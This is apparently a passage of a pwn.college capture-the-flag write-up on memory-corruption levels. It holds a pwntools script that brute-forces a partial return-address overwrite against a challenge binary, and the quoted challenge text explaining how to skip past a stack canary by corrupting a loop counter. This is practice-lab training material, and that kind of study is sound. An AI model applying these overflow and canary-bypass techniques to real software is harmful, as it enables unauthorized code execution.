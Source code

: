 ```
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```
# 8. Level 8.1:
-It is the same as above level.
**My script:**
```
from pwn import *
while True:
    r = process('/challenge/babymem_level8.1')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'154')
    r.recvuntil(b'Send your payload (up to 154 bytes)!')
    r.sendline(b'\x00'*152 + 0x14d4.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```
# 9. Level 9.0:
> While canaries are enabled, this program reads your input 1 byte at a time,
> tracking how many bytes have been read and the offset from your input buffer
> to read the byte to using a local variable on the stack.
> The code for doing this looks something like:
>     while (n < size) {
>       n += read(0, input + n, 1);    }As it turns out, you can use this local variable `n` to jump over the canary.
> Your input buffer is stored at 0x7ffde672cd90, and this local variable `n`
> is stored 40 bytes after it at 0x7ffde672cdb8.
> 
> When you overwrite `n`, you will change the program's understanding of
> how many bytes it has read in so far, and when it runs `read(0, input + n, 1)`
> again, it will read into an offset that you control.
> This will allow you to reposition the write *after* the canary, and write
> into the return address!
> 
> The payload size is deceptively simple.
> You don't have to think about how many bytes you will end up skipping:
> with the while loop described above, the payload size marks the
> *right-most* byte that will be read into.
> As far as this challenge is concerned, there is no difference between bytes
> "skipped" by fiddling with `n` and bytes read in normally: the values
> of `n` and `size` are all that matters to determine when to stop reading,
> *not* the number of bytes actually read in.
> 
> That being said, you *do* need to be careful on the sending side: don't send
> the bytes that you're effectively skipping!
